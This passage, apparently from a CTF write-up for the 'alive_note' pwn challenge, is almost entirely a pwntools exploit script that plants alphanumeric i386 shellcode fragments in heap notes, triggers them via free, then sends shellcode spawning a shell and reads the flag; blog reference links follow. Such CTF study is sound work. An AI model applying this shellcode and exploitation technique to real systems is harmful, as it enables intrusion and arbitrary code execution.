 ```python
inc edx
'''
p3='''
inc edx
inc edx
inc edx
push edx
pop eax
dec edx
'''
p4='''
dec edx
xor [ecx+0x42],ax
push edx
'''
p5='''
pop eax
push 0x7a
pop edx
push 0x69
'''
p1=asm(p1)
p2=asm(p2)
p3=asm(p3)
p4=asm(p4)
p5=asm(p5)
add(pwn(0x804a014),p1+"q8")
add(1)
add(1)
add(1)
add(1,p2+'q8')
add(2)
add(2)
add(2,'\x32\x7a')
add(2,p3)
add(3)
add(3)
add(3)
add(3,p4+'q8')
add(4)
add(4)
add(4)
add(4,p5+'q'+'\x39')
add(5,'\x69\x32\x7a')
add(5,'\x69\x32\x7a')
add(5,'\x69\x32\x7a')
add(5,'\x69\x32\x7a')
add(5,'\x69\x32\x7a')
free(4)
context.arch='i386'
shellcode="\x90"*70+asm(shellcraft.sh())
p.send(shellcode)
slee(1)
p.sendline("cat /home/alive_note/flag")
p.interactive(">> nier ")
```


[1]: https://code.woboq.org/qt5/include/linux/prctl.h.html
[2]: https://n132.github.io/2018/11/15/2018-11-15-Hitcone-baby-tcache/
[3]: https://blog.csdn.net/qq_19683651/article/details/61418292
[4]: https://n132.github.io/2018/11/15/2018-11-15-Hitcone-baby-tcache/
[5]: https://n132.github.io/2019/02/11/Kidding/
[6]: https://n132.github.io/2018/11/27/2018-11-27-GETS-THE-SHELL/
[7]: https://n132.github.io/2018/11/27/2018-11-27-GETS-THE-SHELL/
[8]: https://n132.github.io/2019/02/23/mno2/
[9]: https://code.woboq.org/userspace/glibc/time/tzset.c.html#__tz_convert